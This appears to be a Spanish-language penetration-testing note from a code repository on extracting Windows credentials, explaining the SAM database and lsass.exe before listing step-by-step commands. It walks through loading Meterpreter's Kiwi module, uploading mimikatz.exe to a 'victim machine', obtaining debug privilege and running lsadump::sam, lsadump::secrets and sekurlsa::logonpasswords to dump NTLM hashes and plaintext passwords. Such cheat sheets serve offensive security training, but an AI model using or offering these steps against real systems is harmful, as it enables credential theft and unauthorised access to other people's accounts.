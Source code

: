 SAM es una base de datos en windows dónde se almacenan las credenciales de los usuarios. Esta base de datos está en memoria RAM. El proceso lsass.exe, el cuál se encarga de la autenticación de los usuarios, interactúa con la SAM y guarda en una caché los hashes NTLM de los usuarios. 
Mediante la herramienta de Mimikatz podremos extraer estos hashes de la memoria del proceso lsass.exe. También si tenemos una sessión de meterpreter podemos usar el módulo mimi de meterpreter.

Requisitos:
Tener una sessión con usuario que pertenezca al localgroup administrators.

## Kiwi meterpreter module
1. En una sesion meterpreter escribímos `load kiwi`
2.  Abrimos con `?` el menú de ayuda de meterpreter.
3. Distintos comandos, con creds_all obtenemos todo, con lsas_dump_sam obtenemos los hashes NTLM de los usuarios.
## Mimikatz precompiled executable
1. Vamos a C:\ en la máquina víctima y creamos, si no existe, directorio Temp.
2. `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
3. abrimos desde meterpreter una shell normal con comando `shell`
4. Ejecutamos `.\mimikatz.exe` Se nos abrirá la consola de mimikatz
5. Comprobamos que tenemos los privilegios necesarios para extraer los hashes del proceso lsass.exe usando esta herramienta con el comando: `privilege::debug`. Si nos da el OK podemos.
### Comandos de mimikatz
-  `lsadump::sam` -> Extrae los hashes NTLM de los usuarios
-  `lsadump::secrets`
-  `sekurlsa::logonpasswords`   Si un usuario logea en windows, si este ha sido configurado para guardar en memoria contraseñas usadas para logear, mimikatz puede mostrarte estas contraseñas en texto plano.
